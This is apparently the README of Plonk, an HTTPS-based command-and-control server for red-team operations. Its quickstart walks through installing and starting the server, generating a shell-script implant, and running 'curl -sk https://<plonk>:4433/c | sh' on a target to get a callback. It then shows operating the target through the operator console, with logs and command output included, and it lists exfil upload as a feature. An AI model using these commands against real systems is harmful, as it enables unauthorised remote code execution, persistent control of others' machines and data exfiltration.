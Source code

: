 Plonk
=====
Plonk is a no-frills HTTP(s)-based C2 server, intended to be very easy to set
up and use but also powerful enough for real, if simple, ops.

### Features
1. Very simple [protocol](./doc/protocol.md) which handles...
   1. [Tasking](./doc/protocol.md#tasking-t)
   2. [Task Output](./doc/protocol.md#output-o)
   3. [Exfil Upload](./doc/protocol.md#exfil-p)
   4. [Implant Generation](./doc/protocol.md#implant-generation-c)
   5. [Static File Serving](./doc/protocol.md#static-files-f)
2. Fairly simple [setup](#singleplayer-quickstart) and
   [configuration](./doc/config.md)
3. Multiplayer-friendly, with reasonably simple
   [setup](./doc/multiplayer.md)
4. [TLS](./doc/tls.md) by default, with [Let's Encrypt](https://letsencrypt.org)
   or a self-signed certificate.  Or both.
5. More than zero [documentation](./doc)

Singleplayer Quickstart
-----------------------
Make sure you have [Go](https://go.dev/doc/install) installed.

```sh
# Install Plonk itself.  This can be done on another host, so long as plonk
# is in PATH on the server or the rest of this section is adjusted accordingly.
go install github.com/magisterquis/plonk@v0.0.1-beta.1
# Did it work?
plonk -v

# Start it going
nohup plonk -server -https 0.0.0.0:4433 >/dev/null 2>&1 &
# Or get rid of -https and add -letsencrypt for better TLS if a domain name is
# pointed at Plonk.

# Did it work?
ls "$HOME/plonk.d/"                 # Populated directory exists?
# Should see:
#     files  log.json  op.sock  state.json
tail "$HOME/plonk.d/log.json"       # Log looks ok?  tail -f is also neat.
# Log will tell you everything's happy:
#     {"time":"2023-12-29T22:45:27.206057004Z","level":"INFO",
#     "msg":"Server ready","dirname":"/home/h4x/plonk.d"}
curl -svk https://127.0.0.1:4433/c  # Implant generation works?
# Should see a shell script with a couple of
#     curl -k -pinnedpubkey "sha256//..."
# lines, calling back to 127.0.0.1.

# Get a callback
curl -sk https://<plonk>:4433/c | sh  # On target and with a better URL,
                                      # of course.  
                                      # Don't use -k if Plonk was started with
                                      # -letsencrypt
tail -n2 "$HOME/plonk.d/log.json"     # Get the callback?  May need more -n.
# Log should say an implant was generated and something called back, like:
#    {"time":"2023-12-29T22:52:02.235811943Z","level":"INFO",
#     "msg":"Implant generation","parameters":{
      "PubkeyFP":"1oOI5fF7U7bLSVythHfk0COUNvymV0aoWfTT1puBfIk=","RandN":"57i",
#     "URL":"https://[REDACTED]:4433"},"sni":"","host":"[REDACTED]:4433",
#     "method":"GET","remote_address":"[REDACTED]:32260","url":"/c"}
#    {"time":"2023-12-29T22:52:02.280309985Z","level":"INFO",
#     "msg":"New implant","id":"57i-target.my.domain-9924"}

# Interact with the target
plonk  # Connect to the server as an operator
# A nice welcome message should appear
#     ___________________________
#    /     Welcome to Plonk!     \
#    \ Try ,help to get started. /
#     ---------------------------
#            \   ^__^
#             \  (oo)\_______
#                (__)\       )\/\
#                    ||----w |
#                    ||     ||
#    2023/12/29 22:53:26 [OPERATOR] Connected: h4x0r (cnum:1)
#    (plonk)>
,list  # See what's called back
# Should be the same ID as in the log output from above:
#    ID                         From        Last Seen
#    --                         ----        ---------
#    57i-target.my.domain-9924  [REDACTED]  2023-12-29T22:54:42Z (4.939s)
,seti 57i-target.my.domain-9924 # Interact with our target, but with the right ID
# Timestamps are handy to work out what happens and when, turns out.
#    2023/12/29 22:58:37 Interacting with 57i-target.my.domain-9924
#    2023/12/29 22:58:37 Use ,logs to return to watching Plonk's logs
ps awwwfux  # Run a command on target
# Plonk is HTTP-based; we get notified when the task is queued, send, and run
#    2023/12/29 22:58:42 [TASKQ] Task queued by h4x0r for 57i-target.my.domain-9924 (qlen 1)
#    ps awwwfux
#    2023/12/29 22:58:43 [CALLBACK] Sent task to 57i-target.my.domain-9924 (qlen 0):
#    ps awwwfux
#    2023/12/29 22:58:43 [OUTPUT] From 57i-target.my.domain-9924
#    USER       PID %CPU %MEM   VSZ   RSS TT  STAT   STARTED       TIME COMMAND
#    root         1  0.0  0.0   948   104 ??  I      Sat01AM    0:01.01 /sbin/init
#    root     30130  0.0  0.0  1112    24 ??  Ip     Sat01AM    0:00.00 - /sbin/slaacd
#    _slaacd  83001  0.0  0.0  1108    24 ??  Ip     Sat01AM    0:00.00 |-- slaacd: engine (slaacd)
#    _slaacd  55365  0.0  0.0  1128    24 ??  IpU    Sat01AM    0:00.00 `-- slaacd: frontend (slaacd)
#    ...
```

Directory
---------
Plonk's directory (settable with `-dir` at runtime or
[baked-inable](./doc/config.md#compile-time-settable-defaults) with
`-ldflags "-X main.DefaultDir"` at compile time) is where it keeps all of the
files it needs, i.e.:

File/Subdirectory | Description
------------------|------------
`exfil/`          | Exfil sent to [`/p`](./protocol.md#exfil-p)
`files/`          | Static files, accessible via [`/f`](./doc/protocol.md#static-files-f)
`implant.tmpl`    | Optional [implant template](./doc/protocol.md#implant-generation-c)
`index.html`      | Optional default [response body](./doc/config.md#indexhtml)
`log.json`        | Server logs
`op.sock`         | Operator Unix socket, used by Plonk the client
`sate.json`       | Server's persistent state
